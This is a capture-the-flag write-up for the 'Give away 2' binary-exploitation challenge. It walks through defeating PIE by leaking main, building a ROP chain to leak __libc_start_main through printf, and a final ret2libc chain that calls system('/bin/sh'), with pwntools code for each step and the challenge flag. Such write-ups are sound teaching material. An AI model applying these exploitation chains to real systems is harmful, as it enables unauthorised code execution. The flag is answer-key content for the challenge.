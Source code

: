 # Give away 2 writeup


## Content

This writeup is about PWN challenge

	* libc-2.27.so: shared library (given)
	* give_away_2: challenge binary (given)
	* ropy_exploit.py: Full exploit

![description](./screenshots/give_away_2.png)


## Binary analysis

Quick check of the binary on ida gives

* main

![main](./screenshots/ida_main.png)

* vuln 

![vuln](./screenshots/ida_vuln.png)


checksec reveal that PIE is enabled which explain the purpose of leaking the address of main. So we can compute the base of the progrma later

![checksec](./screenshots/checksec.png)

## Exploit

The attack will be ret2libc but first we need to leak libc base using rop attack.

1. step 1: leaking `__libc_start_main` address

```python
base_prog = MAIN - 0x864 # compute the program base address based on the main address printed out from the program

PRINTF = elf.plt['printf'] + base_prog 
LIBC_START_MAIN = elf.symbols['__libc_start_main']  + base_prog

POP_RDI = 0x0000000000000903 + base_prog
POP_RSI = 0x0000000000000901 + base_prog
RET = 0x0000000000000676 + base_prog

#Overflow buffer until return address
padding = "A"*40
# Create rop chain
rop2 = padding +p64(POP_RDI) + p64(LIBC_START_MAIN) + p64(RET) + p64(PRINTF) + p64(RET)+p64(MAIN)
#Send our rop-chain payload
p.sendline(rop2)
```

2. step 2: Parse the leaked address

```python
recieved = p.recvline().strip().split('Give')
leak = u64(recieved[0].ljust(8, "\x00"))
log.info("Leaked libc address,  __libc_start_main: %s" % hex(leak))

libc.address = leak - libc.sym["__libc_start_main"]
log.info("Address of libc %s " % hex(libc.address))
``` 

3. step 3: Create and send the final rop

```python

BINSH = next(libc.search("/bin/sh")) 
SYSTEM = libc.sym["system"]

log.info("bin/sh %s " % hex(BINSH))
log.info("system %s " % hex(SYSTEM))

final_rop = padding + p64(RET) + p64(POP_RDI) + p64(BINSH) + p64(RET) + p64(SYSTEM)

p.sendline(final_rop)
```


## Notes

* Find the full exploit in `ropy_exploit.py`
* Flag: shkCTF{It's_time_to_get_down_to_business}

* The length of the payload had to be multiple of 16 because the stack should be 16-byes aligned that's why we add RET in the rop chain. Otherwise you'll stuck in the movaps segfault problem (it was my case :') )

![movaps segfault](./screenshots/printf_segfault.jpg)
